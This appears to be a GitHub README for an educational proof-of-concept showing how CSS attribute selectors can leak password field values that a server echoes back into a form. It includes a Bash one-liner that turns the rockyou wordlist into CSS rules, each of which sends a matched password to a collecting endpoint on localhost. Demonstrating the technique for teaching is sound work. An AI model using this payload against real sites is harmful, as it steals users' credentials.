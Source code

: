 # CSS Dictionary "Attack"

Example on how to steal information with CSS from web forms due to poor code quality or other vulnerabilities.

Attack is only possible under very specific conditions. First, the server must echo targeted parameter's value back to the web form. Second, you need to find a way to link your own CSS file or to modify an existing one.

Even then, it is hard to carry out this type of attack due to a large dictionary file size and high RAM consumption.

Tested on XAMPP for Windows v7.4.3 (64 bit) with Chrome v80.0.3987.149 (64-bit) and Firefox v74.0 (64-bit).

Made for educational purposes. I hope it will help!

## How to Run

Import ['\\db\\css_dictionary.sql'](https://github.com/ivan-sincek/css-dictionary-attack/blob/master/db/css_dictionary.sql) to your database server.

Copy all the content from ['\\src\\'](https://github.com/ivan-sincek/css-dictionary-attack/tree/master/src) to your server's web root directory (e.g. to '\\xampp\\htdocs\\' on XAMPP).

Change the database settings inside ['\\src\\api\\php\\config.ini'](https://github.com/ivan-sincek/css-dictionary-attack/tree/master/src/api/php/config.ini) as necessary.

Navigate to the website with your preferred web browser.

To transform an already existing dictionary to the CSS dictionary, run the following Bash command (modify it to your need):

```bash
for word in $(cat /root/Desktop/rockyou_1000.txt); do echo "input[name=pwd][value=\"${word}\"]{background-image:url(http://localhost/api/css.php?v=${word})}" >> /root/Desktop/rockyou_1000.css; done
```

**Check an already existing dictionary [here](https://github.com/ivan-sincek/css-dictionary-attack/blob/master/dict) and the CSS dictionary [here](https://github.com/ivan-sincek/css-dictionary-attack/blob/master/src/css/rockyou_1000.css).**

## Images

![CSS Dictionary](https://github.com/ivan-sincek/css-dictionary-attack/blob/master/img/dictionary.jpg)
